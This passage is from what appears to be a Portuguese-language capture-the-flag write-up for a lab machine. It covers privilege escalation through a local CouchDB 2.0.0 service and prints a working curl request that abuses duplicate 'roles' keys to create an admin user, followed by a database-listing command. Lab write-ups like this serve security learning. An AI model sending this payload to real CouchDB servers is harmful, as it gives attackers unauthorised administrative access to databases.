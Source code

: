 Encontramos algo "estranho" sendo executado como root... é o couchdb

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_linpeas2.png)

Então verificamos nos serviços que estão sendo executados do que se trata, tem algo na porta 5984 rodando localmente! E essa é a porta do couchdb

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_priv.png)

## Explorando couchdb

Procurando pro exploits para Couchdb v2.0.0 encontramos alguns

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_searchsploit.png)

Procurando na internet encontramos algo melhor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_co.png)

> https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_co1.png)

Iremos fazer de acordo com o que está descrito no blog acima

A ideia aqui é criar um usuário no banco de dados (administrador) e com esse usuário realizar as consultas que queremos fazer, parece simples, por que realmente é simples!

Mas por que funciona? A ideia do exploit é pq ele passa dois dados para a variável roles, o JavaScript do CouchDB apenas vê o segundo, e como está vazio ele aceita. O Erlang (que é um parser de json) verifica os dois, e mantém dos dois, nos tornando administradores (de grosso modo é isso)

No blog ele da exatamente como deve ser a requisição POST

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_co2.png)

Adaptamos no nosso caso e enviamos

```
curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:canape' --data-binary '{
  "type": "user",
  "name": "canape",
  "roles": ["_admin"],
  "roles": [],
  "password": "password"
}'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_co3.png)

Agora temos o usuário canape no banco de dados, e assim podemos fazer todas as requisições que quisermos, vamos verificar todas as dbs que tem no sistema (pra isso não precisa da autenticação)

`curl http://localhost:5984/_all_dbs`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_co4.png)

